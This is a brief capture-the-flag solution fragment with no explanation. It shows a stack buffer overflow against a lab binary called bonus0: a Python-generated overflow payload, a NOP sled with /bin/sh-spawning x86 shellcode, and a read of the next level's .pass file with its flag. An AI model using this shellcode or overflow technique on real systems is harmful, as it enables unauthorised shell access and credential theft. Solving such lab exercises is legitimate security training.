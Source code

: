 python -c "print('AAAAAAAAAAAAAAAAAAAA\nBBBBBBBBBBBBBBBBBBBB' + 'D'*4064 + '\xcb\x85\x04\x08\x78\xf8\xff\xbf\x90\x90\x90' )" > /tmp/lol

./bonus0 $(python -c "print '\x90'*1000 + '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'") < /tmp/lol

$ cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9